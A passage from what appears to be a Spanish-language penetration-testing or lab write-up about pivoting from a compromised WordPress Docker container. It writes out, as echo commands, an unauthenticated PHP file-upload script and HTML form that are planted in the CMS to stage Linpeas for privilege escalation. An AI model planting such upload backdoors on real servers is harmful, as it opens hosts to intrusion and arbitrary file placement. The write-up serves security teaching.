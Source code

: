 Podemos observar que nos topamos con dos pruebas que evidencian que estamos en un contenedor Docker. Primero, el numero de proceso escasos que se ejecutan en el sistema, y segundo el archivo oculto dockerenv en el directorio raiz. Ademas, este contenedor Docker ha sido ejecutado para levantar el servidor web Apache incluido con el CMS WordPress y el sitio web.

Ahora realizaremos una escalada de privilegios automatizado con Linpeas pero el problema esta en que no se tiene ejecutado archivos binarios como wget o curl para poder descargarlo en la contenedor. Para ello implementaremos una funcionalidad de Carga de Archivos y lo desplegaremos en una de las rutas del CMS Wordpress con el fin de cargar el ejecutable de Linpeas.

```
echo '<?php
if(isset($_FILES["uploaded_file"])) {
    $path = "/tmp/";
    $path = $path . basename($_FILES["uploaded_file"]["name"]);


    if(move_uploaded_file($_FILES["uploaded_file"]["tmp_name"], $path)) {
        echo "El archivo ". basename($_FILES["uploaded_file"]["name"]). " ha sido cargado en el directorio /tmp";
    } else {
        echo "Hubo un error en la carga del archivo";
    }
}
?>' > upload.php
```

```
echo '<!DOCTYPE html><html><head><title>Funcionalidad Carga Archivos</title></head><body><form enctype='multipart/form-data'
action='upload.php' method='POST'><p>Carga Tus Archivos</p><input type='file' name='uploaded_file'></input><input type='submit'
value='Upload'></input></form></body></html>' > carga.html

```
![](/assets/images/Pivot/image021.png)

![](/assets/images/Pivot/image022.png)

